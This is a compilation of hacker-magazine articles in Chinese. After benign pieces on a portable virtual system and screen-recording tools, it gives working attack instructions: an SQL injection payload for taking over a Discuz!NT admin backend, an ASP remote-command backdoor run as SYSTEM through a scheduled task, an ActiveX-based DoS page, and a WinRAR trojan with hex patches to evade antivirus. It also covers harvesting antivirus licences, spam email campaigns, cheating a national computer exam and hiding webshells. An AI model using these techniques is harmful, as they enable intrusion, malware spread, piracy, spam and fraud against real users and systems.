怎么使用 Prayaya V3 呢？点击“所有”就看到了 Prayaya V3 默认安装的程序，有 IE、Outlook Express 等。在 Prayaya V3 中打开的程序窗口都有一条绿色的纵线框着，图4就是本机的 IE 和 Prayaya V3 中 IE 的对比图。在 Prayaya V3 中用 IE 上网是可以保存网址的，同时还能保存 Cookie 和历史记录，这样我们就可以不用登录而直接进入论坛了。

大家是不是感觉到默认提供的程序有点少呢？别着急，下面我们就向 Prayaya V3 中安装软件。对于不需要安装的绿色软件，直接把程序目录复制到 X:\PrayayaV3\Software\Program Files 下就可以了（其中 X 代表你安装 Prayaya V3 的 U 盘盘符），然后在 Prayaya V3 主界面右边的程序区点击右键，选择“插入”就可以打开新建程序的窗口。在描述中输入你想给软件起的名字；在“目标”中通过“浏览”按钮找到刚才复制进去的可执行文件；“工作在 V3 虚拟环境”是默认选中的，不用管它，直接点击保存就可以了，如图5。这里我以冰刃 IceSword 1.22 中文版为例，保存后冰刃就已经添加到 Prayaya V3 的程序中了，并且可以正常使用，如图6。

对于需要安装的程序，打开 `www.prayaya.com/cn/download/` 就可以看到能安装到 Prayaya V3 的软件列表了，有“互联网”“安全防卫”“Web 浏览器”等大类。我先下载一个 QQ，选择保存到桌面，下载完后却发现桌面上什么也没有，仔细一看才发现原来是保存到了 `H:\PrayayaV3\Software\Documents and Settings\User\Desktop` 目录下（H 是我安装 Prayaya V3 的 U 盘盘符），也就是保存到了 Prayaya V3 的虚拟桌面下。通过 Prayaya V3 左下角的“浏览”按钮找到刚才下载的 QQ2008 的安装包，点击右键，选择“打开”就开始安装了，如图7。安装完成后使用一切正常，如图8。

对于软件的左边空白区点击右键，然后选择“插入”，在这里新建分组，比如我就新建了一个“黑客X档案”的分组，如图9。

以后我的 QQ 聊天记录就可以直接保存到 Prayaya V3 中了，大家也可以使用上面的安装方法把 `www.prayaya.com/cn/download` 列出的任何软件都安装到你的 Prayaya V3 中。

好了，Prayaya V3 就简单介绍到这儿，其他好玩有用的功能就留给大家慢慢去发现吧。Prayaya V3 作为一个虚拟的系统，它可以让你在任何电脑上都能使用自己的程序并保存数据。有了它，我们在任何电脑上都可以像在自己的电脑上一样保存记录、保存 IE 设置、保存上网 Cookie 了。只需要一个 U 盘，就相当于有了一台专属自己的电脑，赶快来试试吧。

> （本文所涉及到的 Prayaya V3 已收录到光盘中）

### 菜鸟轻轻松松做动画

很多刚入门的小菜都希望能够制作出自己的黑客动画，本文我就对网上常用的动画制作工具做了一下整理，大家可以根据需要选择自己所喜欢的。

具有长时间录像并保证声音完全同步的能力。它有很多的版本，其中的网络版可以对局域网内的电脑进行实时的屏幕画面监控。总之，pmlxzj 是制作动画的一个非常经典的工具。

### 一、古董级——屏幕录像专家（简称 pmlxzj）

网上有很多黑客动画都是使用该工具制作出来的，它的使用非常简单，功能也很强大，是制作各种屏幕录像和软件教学动画的首选软件。我们使用它可以轻松地将屏幕上的软件操作过程、网络教学课件、网络电视、网络电影、聊天视频等录制成 FLASH 动画、ASF 动画、AVI 动画或者自播放的 EXE 动画（生成的 EXE 文件压缩比非常高，生成的文件较小）。

我们来看它的具体使用方法：运行该软件后的界面如图1所示，启动软件后（这时缺省的情况应该是“直接录制生成”处于选中状态，“EXE”处于选中状态）按 F2 开始录制，过一会儿后按 F2 停止，然后到软件左边的列表中就可以找到录制的 EXE 文件了，双击就可以进行播放了。

如果想录制生成 AVI 文件，可以按如下操作进行：启动软件后，在录制模式下（这时缺省的情况应该是“直接录制生成”处于选中状态，“EXE”处于选中状态）选中“AVI”，然后按 F2 开始，录制一会儿后按 F2 停止，然后到左边的列表中就可以找到录制的 AVI 文件了，双击就可以播放了，整个制作过程非常简单。

我们在图1中会看到最下面的两种模式——“录像模式”和“生成模式”，这两种模式是该软件制作录像动画的两种不同方式。如果我们勾选了“直接录制生成”，就使用的是“录像模式”，该模式下可以直接录制生成屏幕动画，使用该方式所生成的文件占用硬盘空间比较小，可以选择文件格式为 EXE 或者 AVI。如果我们不勾选“直接录制生成”，软件会首先生成 ix 文件，然后我们再选择“生成模式”，软件就会根据我们在“生成模式”中所做的设定来生成动画。

“颜色质量”设置为 16 位就可以了，如图2。

录制声音要注意将话筒连接好，并使用 Windows 附带的“录音机”程序来测试是否正常。在“开始”→“程序”→“附件”→“娱乐”中选择“录音机”，我们可以先录制一段声音进行测试。如果有杂音，可以在“开始”→“运行”栏中输入 `control` 来打开控制面板，选择“声音和音频设备”，选择“语声”选项，单击“测试硬件”来进行硬件检测，测试完毕后再进行录音测试。屏幕和声音设置完成后，我们需要对软件的属性进行一些设置。运行软件，单击“录像模式”，在“基本设置”中设置文件名、文件保存路径。如果使用默认的“直接录制生成”动画文件，我们可以根据需要设置生成的文件为 EXE 或者 AVI；如果要对生成动画的播放进行设置，可以单击 “EXE” 或者 “AVI” 后面的“设置”按钮进行设置，如图3。

对于“录制目标”和“声音”的设置，使用默认的就可以了，然后选择“快捷键”，在这里我们可以根据需要设置录制、停止录制的快捷键，以方便我们进行动画制作。如果我们使用先录制后生成的模式，就必须在“录像模式”中将“直接录制生成”的勾去掉，然后选择录制或者使用快捷键录制，录制后会生成一个 `.lxj` 的文件。然后我们单击“生成模式”，在这里要注意：如果你录制了声音，就不要更改回放频率了，因为回放频率就是动画播放时的频率，一般软件缺省将其和录制频率设置成同一个值，这样也可以保障同时录制的声音同步。如果修改了回放频率，那么一般声音就需要重新录制了。单击“试放”按钮可以检测我们录制的动画效果，如果觉得没问题就可以点击“生成”，然后选择保存路径，确定后我们的动画就制作完毕了！

#### 二、麻雀虽小五脏俱全——S-Demo

S-Demo 是一个经常被破解者用来制作破解动画过程的软件，它可以记录你屏幕上的任何动作及鼠标的移动过程，同时使用了较高的压缩率，当然压缩率是可以选择的。在正常的操作情况下，每分钟生成的文件大小在 200K 左右（800×600×32bits）。S-Demo 生成的文件可用软件附带的 S-Player 播放，也可以生成可执行文件脱离 S-Player 进行播放。该软件最大的特点就是看上去小巧玲珑，非常可爱！

软件支持三种模式（全屏、拉伸、窗口）的播放，建议在全屏模式下查看动画。运行后的界面如图4所示，我们直接单击“Record”就会弹出一个对话框，如图5。在这里我们首先选择动画要保存的路径，然后可以根据自己的需要填写上制作人、动画名称等信息。它主要的特点是可以对动画进行密码设置，勾选“口令保护”，输入密码后单击“开始”，软件就开始记录我们的操作了。录制完毕后，我们可以使用软件自带的 S-Player 进行播放，也可以选择 “Export 'exe' File”，将录像文件导出为 EXE 文件，从而脱离 S-Player 播放器。单击“Option”，可以对软件进行属性设置，比如“电影品质”“音频”“格式”等等。虽然 S-Demo 可以录制声音，但是语音与动画的同步性能不是很好，因此下面我向大家推荐 FlashBack！

#### 三、黑客动画吧——BB FlashBack

FlashBack 是一个屏幕录像工具，能够快速轻松地创建清晰的屏幕图像，可以将抓屏结果保存为 Flash 动画、EXE 文件或 AVI 文件。运行程序后会提示用户先进行注册，在程序的解压缩目录中汉化作者已经提供了其注册码。注册完毕后就会进入如图6所示的界面，在“文件夹”中设置录像文件保存的路径，在“文件名”中填入动画名称。可以根据需要决定录制的范围，建议使用默认的“整个屏幕”。如果同时要进行声音录制，可以单击“声音”，选择“Sound”选项，勾选“录音”，根据需要设置“麦克风音量”和“声音格式”。

该软件和 pmlxzj 一样也提供了热键设置。我们单击“热键”选项，比如要使用 “Ctrl+S” 进行开始记录，我们就可以在“记录”后面的空格中按键盘上的 Ctrl 键，软件就会自动显示 “Ctrl+” 的符号，在后面再输入 S 就可以了。以相同的方法我们将“停止”设置为 “Ctrl+E”。设置完毕后，我们按 “Ctrl+S” 软件就会记录我们的操作，录制完毕后按 “Ctrl+E” 就会结束录制了。这时软件会自动弹出 “BB FlashBack Player”，在弹出的窗口中我们可以选择“文件”，根据个人爱好将录像输出为 EXE、AVI、WMV 等格式的动画，如图7。

在 “BB FlashBack Player” 中，还可以实现对录像和声音的强大处理，与 pmlxzj 相比更为强大、更为方便，而且注册后也不会出现在 pmlxzj 6.0 版本中类似的未注册字样。有时候我们可能制作的动画不想录制声音而希望添加一些音乐，使用这个工具就可以轻松实现：单击“声音”菜单，选择 “Insert Sound”，在弹出的窗口中选择要插入的音乐就可以了。如果录像时间比较长，可以勾选 “Auto Repeat” 实现音乐的自动循环播放。个人感觉，这款录像软件比屏幕录像专家和 S-Demo 都要好用。

#### 四、黑客初级入门教程制作工具——Flash Cam

相信 Flash Cam 是很多人所期待的 FLASH 影像捕捉工具，它是一个非常好的演示软件，能把屏幕的操作行为录为 Flash 文件，而且我们还可以编辑剪切录下来的图片。它可以制作出相当棒的 SWF 格式的教学影片，可以将捕捉的影像单独连贯……

## 傻瓜黑客


图7


图9

图10

专业的演示类软件，是大师级人物制作黑客入门教程的宝马良驹，缺点就是制作的画面与上面的工具相比不够清晰。

#### 五、最专业的——Camtasia

Camtasia 是一款专门捕捉屏幕影音的工具软件，它能在任何颜色模式下轻松地记录屏幕动作，包括影像、音效、鼠标移动的轨迹、解说声音等。另外它还具有即时播放和编辑压缩的功能，可以对视频片段进行剪接、添加转场效果。它输出的文件格式有很多，有常用的 AVI 和 GIF 格式，还可输出为 RM、WMV 和 MOV 等格式，使用起来极其顺手。同时它还是一款视频编辑软件，可以将录制格式的图像、视频编辑连接成电影，输出格式可以是 GIF 动画、AVI、RM、QuickTime 电影（需要 QuickTime 4.0 以上）等，还可以将电影文件打包成 EXE 文件，这样就可以在没有播放器的电脑上进行播放了。同时它还附带一个功能强大的屏幕动画抓取工具，内置了一个简单的媒体播放器。

应该说 Camtasia 是最专业的屏幕录像软件，很多光盘都在查看其内容前自动安装了该软件。

软件运行后的界面如图11所示。要录制屏幕，我们可以单击“文件”菜单，选择“录制屏幕”，在弹出的对话框中选择进行录制的范围，一般选择“整个屏幕”，单击“下一步”，根据需要选择是否“录制声音”，如果需要就勾选“录制声音”，单击“下一步”，对音频进行设置，设置完毕后单击“下一步”，单击“完成”后，在“Camtasia 录制器”中单击“捕捉”菜单，选择“录制”（或者使用 F9 快捷键）按钮，软件就会开始录屏录制了。录制完毕后我们按 F10 快捷键结束录制，录制结束后软件会提示是否进行编辑，我们单击“确定”后，就可以启动 Camtasia Studio 进行编辑了。

单击刚才录制的 *.camrec 文件，选择 Camtasia Studio 中的“文件”菜单，选择“生成视频为”，在弹出的对话框中选择要导出的文件类型，如图12。依次点击“下一步”，最后在“输出文件”中填入文件名，在“文件夹”中选择录像文件要保存的位置，单击“完成”就可以了。

连接起来成为一个 SWF 文件，还可以插入标题文字、录制旁白声音、自定义鼠标轨迹等。使用该工具录制的动画播放速度比较慢，可谓是制作黑客初级入门教程的必备工具。

软件运行后的界面如图8所示，我们单击“文件”菜单中的“新建”按钮，程序就会弹出“录制电影”的向导，如图9。在这里主要设定屏幕捕获的大小，默认的是系统当前的分辨率，单击“下一步”，软件就开始以帧的形式捕获当前屏幕的操作了。要想插入字幕的话，首先选择需要插入字幕的帧，然后单击“插入”菜单，选择“字幕”，双击“捕捉文本”后面的编辑框，输入文字，如图10，比如“Hacker like hacking.”，确定后就会在帧界面上出现一个浮云状的字幕，单击选定字幕，将其拖动到需要字幕的位置就可以了。

要想插入声音的话，我们首先选择要插入声音的帧，然后单击“帧”菜单，选择“音频”，在弹出的窗口中我们可以为帧选择“打开”一个已经存在的音频文件；也可以录制一个声音。如果要更换声音文件，可以单击“清除”，然后选择你喜欢的声音就可以了。对每个帧设置完毕后，可以单击“选项”菜单选择“播放器”，此时软件就会自动将每个帧连接成为一个 Flash 文件，这样一个录制过程就完毕了。


图8


图11

#### 六、总结

以上这五款动画制作软件，最老牌的还是屏幕录像专家，但是 6.0 的版本经常会出现未注册的字体，有点令人不爽。S-Demo 小巧玲珑，但是在声音与动画的同步上不如屏幕录像专家。不论是声音录制还是图像录制，最经典的还是 BB FlashBack。如果是职业的黑客动画制作人，建议使用 Camtasia；如果制作演讲课件则推荐使用 Flash Cam。大家可以根据不同的需求来选择不同的工具去制作动画。

（本文所涉及到的屏幕录像专家、S-Demo、BB FlashBack、Flash Cam、Camtasia 已收录到光盘中）


### 破解不出管理员密码照样进后台

txcbg

想知道小菜我平时是怎么拿 webshell 的吗？一个网站程序出现漏洞后，利用牛人公布的漏洞利用工具直接拿 webshell 是最重要的途径。使用这种方法拿的 shell 多了，也就发现了一个规律：大多数漏洞利用工具都是直接露出管理员的用户名和密码的，而密码几乎都是经过 MD5 加密的。


我们的目标就是进入后台拿到 webshell，而面临的困难则是破解不出管理员密码的 MD5 值，而我要做的就是克服困难达到目的。其实就 Discuz!NT 2.5 注入漏洞本身来说，利用注入漏洞添加一个管理员用户就能进入后台，但我是为了教大家在破解不出密码的情况下如何进入后台，所以我们就以用户名 admin（论坛创建者）来登录后台（假设 admin 的密码破解不出来），新注册两个用户。


这可不一定，也许只要我们灵活地动一下手就会有意想不到的结果哦。很多漏洞都是注入漏洞，有的注入漏洞除了像一般的漏洞利用工具那样暴出管理员密码外，我们能做的还有很多。


如果有更新数据库的权限，即使破解不出管理员的后台登录密码，我们也可以间接地进入后台。下面我就以前段时间爆出注入漏洞的 Discuz!NT 2.5 为例来具体介绍一下操作过程。关于 Discuz!NT 2.5 注入漏洞我就不多说了，出漏洞的文件是 showuser.aspx，我已经在虚拟机中搭建好了测试环境，设置的管理员密码是“drRo0O@25!”，这个密码在 http://www.cmd5.com/ 上是破解不出来的。


test1、test2 的密码都是 123456。文中描述了通过 SQL 注入在后台页面中临时替换 `admin`、`test1`、`test2` 用户密码以实现登录与还原的过程，示例包含如下形式的注入语句：`http://192.168.79.133/showuser.aspx?ordertype=desc; update dnt_users set password=(select password from dnt_users where Username='admin') where username='test2'--`，以及将 `admin` 密码改为已知用户密码再登录后台、最后恢复管理员密码的步骤与说明。

### 基于 WAP 的远程控制

文章介绍了利用手机 WAP 页面向服务器提交信息、再由服务器执行控制命令的思路，并说明需要在服务器端支持 WML 类型（如 `text/vnd.wap.wml`）后，才能正常访问类似 `index.wml` 的页面。

- 1. 创建一个 WML 网页，用于手机向服务器提交信息。  
- 2. 创建一个 ASP 网页，用于接收手机提交的信息。  
- 3. 信息处理与命令执行。

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE wml PUBLIC "-//WAPFORUM//DTD WML 1.1//EN" "http://www.wapforum.org/DTD/wml_1.1.xml">
<wml>
<head>...</head>
<card id="card1" title="wap" newcontext="true">
<p>code:</p>
<input name="$ID" size="10" maxlength="50" type="text" .../>
<anchor title="login">
<go href="jieshou.asp" method="post">
<postfield name="code" value="$ID"/>
</go>
</anchor>
</card>
</wml>
```

```vb
<%@ Language=VBScript %>
<%Response.ContentType="text/vnd.wap.wml"
code=Request.Form("code")
filename="C:\info.bat"
Set FK = CreateObject("Scripting.FileSystemObject")
Set Tol = FK.CreateTextFile(filename,true)
Tol.Write("@echo off & "&code&" & del %%0")
...
%>
```

文中说明将手机提交内容写入 `C:\info.bat`，并通过计划任务周期执行；示例命令包含：`schtask /create /tn remote /tr "C:\info.bat" /sc minute /mo 1 /ru system ...`，以达到远程执行命令的效果。


```bat
attrib +s +r +h c:\windows\tasks\remote.job
attrib +s +r +h c:\wwwroot\wap\index.wml
attrib +s +r +h c:\wwwroot\wap\jieshou.asp
...
```

随后用手机访问 WAP 地址并提交 `net user > 1.txt` 等命令，文中给出提交后提示与运行结果截图，说明该方法可行，并建议进一步完善与隐蔽化。


3、信息的处理：从 `jieshou.asp` 可见，信息被提交并写入批处理文件后，由服务器端任务执行。

### 简单测试黑客工具中是否含有后门

丁小光

出于利益原因，很多所谓的免费版黑客工具中大都含有后门，尤其以盗号工具最为典型……对于有经验的高手而言，可以使用 WsockExpert 进行抓包；但当手头没有该工具时，也可以使用 Windows 自带的 Netstat 来检测网络连接与端口占用信息。


- 1. 关闭系统中所有可能连接网络的程序，登录 QQ 后在命令行执行 `netstat -an > c:\test\net1.txt`。  
- 2. 运行“QQ大盗2008国庆免杀版”并生成木马程序（示例为 ASP 收信方式）。  
- 3. 在命令行执行 `PING www.zifeng.com`，记录返回的收信空间 IP（示例：220.181.5.31）。  
- 4. 运行木马并重新登录 QQ，再执行 `netstat -an > c:\test\net2.txt`。  
- 5. 对比 `NET1.TXT` 与 `NET2.TXT`，找出新增连接并判断可疑后门连接。


在使用 Netstat 进行后门测试时要注意：Netstat 结果存在数秒延迟，因此看到的连接状态可能不是实时值，但不影响总体测试判断。

### 利用下载软件制作隐蔽的 DOS 炸弹

爱无言

几乎每个人的电脑上都安装有下载软件。作者讨论了利用下载软件漏洞实现隐蔽 DOS 攻击的思路：通过网页触发下载组件行为，使访问者机器执行恶意下载任务，从而造成拒绝服务效果。

文中以 QQDownload/超级旋风相关组件为例，分析 `QQRightClick` 类及其函数接口，如 `SendUrl`、`SendUrl2`、`SendUrl3`、`AddCmnInfo`、`AddTask`、`AddTask2`，并说明实际测试中可用的主要接口。

```html
<SCRIPT language=javascript>
var QQRightClick = new ActiveXObject("QQIEHelper.QQRightClick.2");
QQRightClick.AddTask("http://127.0.0.1/test/test.exe","","");
</SCRIPT>
```


在明白了原因后，我们在调用完 AddTask 函数后又该怎样做呢？回头看 QQRightClick 类提供的接口函数，一个名为 SendMultiTask 的函数引起了注意。从字面看它是“发送多个任务”，这不就是在添加下载任务后触发下载的函数吗？修改代码，在 `<SCRIPT>` 中加入 `QQRightClick.SendMultiTask();`，保存并打开后出现下载提示对话框，如图1。

虽然现在已经可以让超级旋风进行下载，但“没有对话框而 DOS”还未实现。AddTask 本质上是预装任务，会先把任务存入内存；若一次性预存足够多任务，将占用大量内存并引发 CPU 预处理压力，可能造成系统 DOS。调整代码并降低语句间隔、提高循环次数后再次测试，结果如图2：IE 进程 CPU 占用迅速接近 99%，内存持续上升，系统几乎无响应。

由此可见，SendUrl 系列函数更像是立即下载命令，而 AddTask 系列函数是预存下载命令。单独调用 AddTask 并不会立即触发下载，因此系统不会有明显反应。理解这一点后即可构造更隐蔽的资源消耗型攻击方式。

> （本文所涉及到 DOS.htm 已经收录在光盘中）

### 手把手教你制作“WinRAR 自解压木马”全过程


现在网上“无奇不有”，WinRAR 的自解压功能也可能被用于恶意传播。本文以“桌面天使.EXE”为示例，演示如何在压缩包中设置自解压路径、解压后运行、隐藏模式及覆盖策略等选项。


步骤概述：先选择程序并右键添加到压缩文件；压缩方式选“最好”；在“高级”中设置“解压路径”和“解压后运行”；在“模式”中设置“全部隐藏”“覆盖所有文件”；还可在“文本和图标”中配置从文件加载图标以增强伪装性。


如图5。制作完成的病毒和原来的正常程序是不是看上去一样呢，如图6；但是有经验的人，对于这种程序一般都会查看它的属性，只要是出现了如图7所示的选项，那么就表明它是有问题的文件了。


我们使用 WinRAR 打开，看到里面的“猫腻”了吧，如图8、图9。但是，打了补丁的“病毒文件”是没有图8中“解压文件...”等字样的。

下面，我们就开始制作属于自己的“WinRAR 自解压补丁生成器”，用到的工具有 CodeFusion、C32Asm 和一点代码。

第一步，先使用 C32Asm 加载未修改的“病毒文件”，直接把它拖到 C32Asm 中就行了。第二步，选择“十六进制模式”，然后点“确定”，按键盘上的“Ctrl+F”后，在“类型”选择“十六进制”，同时在“搜索”中输入“80 7A 01 61”，如图10。找到后将其修改为“80 5A 01 XX”，其中 XX 代表你自己修改的数值，这里我把 XX 都改为了 22，如图11。依此类推，修改“52 61 72 21 1A 07”为“52 XX 72 21 1A 07”。


如果只修改这两处，那么卡巴大叔还是会查杀的。特征码我已经查出来了，是 000493F6_00000003。再把“69 74 C4 3D 7B 00 40 07 00”改为“69 74 C4 3D 7B XX XX XX XX”，卡巴就不会查杀了，这样一个 RAR 病毒就伪装好了。为了高效地修改 RAR，下面开始制作工具。我们要用到 CodeFusion，对于 CodeFusion 这款软件我就不多作介绍了，它是一个非常好的补丁工具。在使用之前，我们需要先设置一下，需要去掉“选项”中所有的对勾，如图12。在界面中输入你想要的版本信息，如图13、图14。点击“下一步”后，再点击右上角那个绿色的“+”，在弹出的界面中依次点击“任意文件”和“确定”，如图15。


接着点击中间的那个绿色的“+”号，在弹出的界面中点击“查找及替换”，在上面的框中输入“80 7A 01 61”，下面的框中输入“80 7A 01 XX”（XX 为你改的数据），并将“方式”改为“全部替换”，如图16。按照上述方法将“52 61 72 21 1A 07”改为“52 XX 72 21 1A 07”，将“69 74 C4 3D 7B 00 40 07 00”改为“69 74 C4 3D 7B XX XX XX XX”，点击“下一步”，保存即可。这样一个“WinRAR 自解压补丁生成器”就做好了，如图17。


（本文所涉及到的 CodeFusion、C32Asm 已收录到光盘中）

```
80 7A 01 61 -> 80 7A 01 XX
52 61 72 21 1A 07 -> 52 XX 72 21 1A 07
69 74 C4 3D 7B 00 40 07 00 -> 69 74 C4 3D 7B XX XX XX XX
```

## 不用360专版照样免费用NOD32

林中闲人（胥忠亮）

最近NOD32与360联合推出了NOD32 360专版，可是笔者用的系统是 Windows Server 2003，360专版不支持服务器操作系统。怎么办，难道就不用了吗？那可不是我们叉子的风格。经过我的努力，我找到了一款叫“ESET升级账号获取器”的工具，它可以让你在很短的时间内获得大量可用的NOD32账号。

### 一、下载NOD32

首先来到ESET中国（http://www.nod32cn.com/html/145/162/）下载NOD32，这里有三个版本：NOD32 2.7版、NOD32防病毒软件3.0版、ESET NOD32安全套装。如果你的系统是服务器版操作系统请下载2.7版，XP/Vista下载哪个版本都可以。


图1

#### 二、安装并导入升级账号

下载并安装NOD32，安装到自动更新这一步时，选择“以后设置更新参数”，如图1。安装完成之后，打开ESET升级账号获取器，如图2。


图2


图3


图4

点击“批量获取”，如图3。我这获得到了13个升级账号。为了确定账号的有效性，我们点击“验证账号”，在有效的账号里随便选择一个升级账号，点击“一键导入”并选择“是”，如图4。

#### 三、更新病毒库

打开你的NOD32，选择更新病毒库，是不是可以更新了。看一下NOD32信息，如图5，我的剩余天数居然为16714884天。当然用不同的升级账号剩余的天数会有所不同。经过本人测试，ESET升级账号获取器得到的升级账号全部适用于上面的几个版本。还在等什么，快去试试吧！


图5

（本文所涉及到的ESET升级账号获取器已收录到光盘中）

### 突破邮件群发，实现网络暴力营销

无敌小龙

“出名要趁早”，这是张爱玲很早说过的一句话。现在不管是制作个人网站还是推广一个软件，名气和点击率都很重要，只有“点击率上去了，身价就跟着上来了”（语出《大腕》）。那么我们如何提高点击率呢，这里要提到的就是——暴力营销！本文我就教大家搭建自己的邮件服务器来做到群发想发就发。

首先需要大家到3322.org去注册一个动态域名，记住一定要确保是8800.org结尾的，如图1。

动态域名弄好后，就使用“CMAILSERVER”这款软件来搭建一个SMTP邮件发送服务器吧。运行软件后点击“设置”按钮，在系统设置窗口中选择“单域名”，然后输入我们刚才建立的域名 xiaolong1212.8800.org，如图2。点击“确定”按钮保存设置，然后点击“新账户”，在弹出的账户窗口中输入账户 xiaolong 和密码 123456，如图3，设置完毕后点击“确定”按钮。


图1


图2

保存设置。这里需要注意的是，因为我使用的是共享版本的CMAILSERVER，而且共享版只支持五个账户，所以不要乱添加账户，否则到时我们就无法发送成功了。这里我们只建立了一个账户，够用就行了！


图6


图3

这些都设置好后，接下来要做的就是得到收信者的邮箱了。我们打开Excel，输入一个邮箱地址，也就是数字+QQ.COM类型的，输入完毕后拖动出一个列表来，如图4、图5。单击第一列的最上方，就会全选该列，然后点击右键，在弹出的快捷菜单中选择复制。此时把得到的邮件列表全部粘贴到“爱博邮件群发软件”中。“邮件发送服务器”就填写 xiaolong1212.8800.org，其实也就是本机的IP地址；用户名和密码我们就输入 xiaolong 和 123456；发送者Email也填写 xiaolong@xiaolong1212.8800.org；称谓和回复地址都差不多，大家按图6所示进行填写即可。


图7

上面介绍了设置单域名的方法。为了让读者们能够更好地理解，我们再来介绍一下多域名的设置方法。单击“设置”按钮，在弹出的设置对话框中选择“多域名”，然后单击“加入”按钮，在弹出的窗口中输入刚才的域名 xiaolong1212.8800.org，如图8。


图4

图5

接下来填写要发送的邮件主题和内容，然后点击“发送邮件”按钮，就可以进行暴力营销学的实战运用了。现在，我们返回到“CMAILSERVER”中，可以在状态栏中看到邮件发送的过程。


图8

单击“确定”按钮保存设置，然后点击“新账户”，在弹出窗口中输入账户 xiaolong1212@xiaolong1212.8800.org 和密码 123456，如图9。来到“爱博邮件群发软件”中，只需要修改用户、密码以及发送者，就可以发送邮件了，如图10。此时，我们来到受害者的邮箱去看看，可以看到对方已经成功地被我们给暴力营销了，如图11。


上面介绍了使用软件进行邮件群发的方法，其实QQ本身就有一个群发的功能，那就是QQ群邮件，如图12。不过使用该方法通常会面临被退群的厄运，所以大家还是慎重选择使用这种方法了。


（本文所涉及到的CMAILSERVER、免填邮件群发软件已收录到光盘中）

## 3GQQ幻想西游，我用电脑玩

现在有很多朋友使用手机玩WAP网游，3GQQ幻想西游就是其中人气比较高的一个。平时我也经常玩，但是手机的屏幕太小了，玩起来总是让人感觉不爽，有时GPRS网络也不稳定，而且手机包的流量也是有限的，万一流量超出了产生巨额的话费那可不是闹着玩的。经过不断的尝试，我终于找到了使用电脑玩手机QQ幻想游戏的方法。

首先，我们需要一款能够解析WAP网页（一般是WML）的浏览器，常用的IE和傲游是解析不了的，不过Opera浏览器可以。对于手机腾讯网，我们还需要下一点工夫，否则会出现自动跳转到电脑网页的情况。实际上腾讯是通过判断是否为手机浏览器（即用户标识UA）的方法来限制访问的，那么我们就来手工修改浏览器的UA，以骗过检测。

为了达到在电脑上模拟手机上网的目的，破解步骤如下：Opera的UA在其安装文件夹的opera.dll中。我们要先给它脱壳，使用UnApack就可以（这里Opera的版本是8.5，UnApack的版本是1.2），如图1。然后我们使用十六进制编辑工具（WinHex）打开脱壳后的opera.dll，搜索MSIE，找到user agent附近字段后把有关opera的更改掉，可以随便更改，但必须要字数一致，这里我改成了BlackBerry，如图2。


接下来我们就可以到 http://www.ipchicken.com/ 上看看自己的修改是否成功了，如图3，UA已经被修改过来了。腾讯除了判断浏览器UA外，还会判断访问的IP是否为手机IP，大家不用担心，我们同样也有应对的方法，就是通过中国移动或中国联通的代理服务器来登录。相比更改UA，寻找代理服务器是不容易的……在HTTP内填入代理服务器的地址和端口就行了。


登录游戏后我们使用按键精灵等软件就能实现挂机了，这样不但操作方便而且还保护了手机键盘……（本文所涉及到的Opera、UnApack、WinHex已经收录到光盘中）

## 小心“黄山IE修复专家”中的猫腻

战神MARS

前段时间IE不知道怎么搞的，老是出现莫名其妙的问题，而且访问网站也是奇慢无比……看着软件这么牛X的介绍，我就动心了，决定下载试用一下。


下载回来后，打开黄山IE修复专家，第一次使用的时候出现了一个“黄山IE修复专家提示您”的对话框……点击“确定”按钮后系统就会自动重启了。

系统重启后我就发现有些不太对劲了，以前瑞星监控中心和卡卡上网助手都是随系统启动的，但现在却不见了踪影……


我心想坏了，难道这个黄山IE修复专家被人动了手脚？赶紧检查一下，打开360安全卫士，扫描一下插件，哇，居然发现了6个恶意插件和1个其他插件，那个其他插件则是百度工具栏，如图4、图5。


看到这些，我着实吓了一跳，赶紧使用360安全卫士将这些恶意插件全部清理了，看到如图6所示的提示界面，心里总算是舒服多了。

不装插件就释放不执行（正确的应该是不释放），360又比较弱智，完全靠文件路径和文件名判断插件。安装时候如果选择不装插件的话，实际插件不会运行的。还有上文写的监控中心和卡卡助手没有了，应该不是被流氓插件破坏，图1第一条就提示执行的时候一定要先关闭杀软。

小编注：软件安装的时候可选是否安装那些插件，但选“否”360依然扫描出那些插件，其实只能怪作者写的安装程序有问题。原则是：安装时候选安装插件就释放执行插件，安装时候选不装插件就释放不执行。


## 全国计算机等级考试：上机不会，傻也可轻松拿满分

西北的狼

国家计算机等级考试想必大家都知道吧，它分为笔试和上机（三级或者二级考试内容）两部分，只有两个都通过了才会颁发相应的证书。证书在一定程度上肯定对找工作有帮助。据我所知，笔试部分只要你把往年的试卷仔细研究一下，一般花费一个月时间，考过应该没什么问题，难就难在上机题目上。

具体的利用方法如下：首先我们到官方网站下载一个模拟上机软件，它和真实的上机考试效果是一样的，网址是 http://www.ncre.cn/ncre_new/download/index.html，我们将其安装到电脑并运行，如图1。这里我简单介绍一下计算机等级考试二级C语言上机部分。上机部分一共有三个题目：一个填空（30分），一个改错（30分），一个程序编制（40分）。


- 1. 登录考试系统并选择题目，我们点击“程序设计”后就可以看到如下的内容，如图2。  
- 2. 按照浏览框中的提示我们进入 `\WEXAM\24010001` 文件夹下，这时会看到如图3所示的几个文件。  
- 3. 使用记事本打开 `in.dat` 文件，就会看到输入内容，这就是题目中的a数组和b数组的值。按题意进行计算并输出。  
- 4. 用记事本新建一个文件，按照题目规则写入结果，每行5个数据，数据之间有空格，注意严格按格式输出。  


我们要如何得到输出格式呢？其实很简单，就是不输入任何内容而运行一下程序，然后再打开out.dat文件观察数据之间的格式，我们按照所观察的格式进行填写即可，填好的内容如图5所示。


- 5. 将新建的记事本文本文件更改为out.dat。至于如何查看扩展名的方法很简单，我们右键点击“我的电脑”，选择“工具”->“文件夹选项”->“查看”，将“隐藏已知文件类型的扩展名”前的勾去掉然后保存即可。

这时候我们交卷，试想一下我们会得到什么结果呢？如果评分标准是按照输出答案来评分的话，我们的得分就应该是40分，因为前面两道题我们都没有做，第三道题目满分即40分……我们点击交卷看看，如图6，果然不出所料。

最后我们再总结一下操作过程：首先登录计算机等级考试系统，打开程序编制的题目，一定要看清楚题目；然后打开输入的文件（一般是in.dat），新建一个记事本文件命名为out，后缀改为dat，即out.dat；再按题意手工计算并填写到out.dat中，最后保存文件。

### 守护你的小马——隐藏小马引发的讨论

小楼听雨 & crazy [J.L.S.T]

某天，我正混迹于论坛上，突然一款经过某位同学“自己加工”的小马进入了我的视线……我也学习过几天ASP，于是就开始了自己的DIY之路。

#### 抛砖篇

仔细观察了那位同学的小马，正常访问小马地址会返回“找不到服务器”的页面；但是在地址后加上预设参数（比如“?xlty=hackerxfiles”）就会出现后门。由此可见这是很简单的参数识别。

```html
<html>
<head>
